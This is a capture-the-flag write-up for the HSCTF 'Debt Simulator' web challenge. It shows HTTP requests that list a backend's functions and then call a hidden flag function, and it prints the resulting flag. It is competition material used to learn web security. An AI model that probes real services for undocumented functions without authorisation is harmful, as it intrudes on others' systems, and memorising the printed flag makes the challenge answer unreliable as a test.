

# Debt Simulator [web]

- Score: 100
- Solves: 579

## Solution

Accessing the web page, an error occurs:

```
GET https://debt-simulator.web.hsctf.com/static/js/2.f3855285.chunk.js net::ERR_CONTENT_LENGTH_MISMATCH 200 (OK)
```

This means that the header `Content-Length` is set to the wrong value. Anyway, I downloaded all the relevant files and launched a localhost server.

Web page:



By watching the network, I found that every time I pressed the button, it sent a POST request to `https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001`.

Then, I sent GET request:

```fish
$ http GET https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
HTTP/1.1 200 OK
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Length: 68
Content-Type: application/json; charset=utf-8
Date: Sat, 06 Jun 2020 16:10:11 GMT
ETag: W/"44-xQgGU8rIa6s/xdA6dJnU2Ix7pCg"
Server: nginx/1.14.2
X-Powered-By: Express

{
    "functions": [
        "getPay",
        "getCost",
        "getgetgetgetgetgetgetgetgetFlag"
    ]
}
```

And, I sent POST request:

```fish
$ http --form POST https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001 function=getgetgetgetgetgetgetgetgetFlag
HTTP/1.1 200 OK
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Length: 61
Content-Type: application/json; charset=utf-8
Date: Sat, 06 Jun 2020 16:14:29 GMT
ETag: W/"3d-k6EklH+9W7N6OgPJcOFZK3d45qk"
Server: nginx/1.14.2
X-Powered-By: Express

{
    "response": "flag{y0u_f0uND_m3333333_123123123555554322221}"
}
```

## Flag

`flag{y0u_f0uND_m3333333_123123123555554322221}`
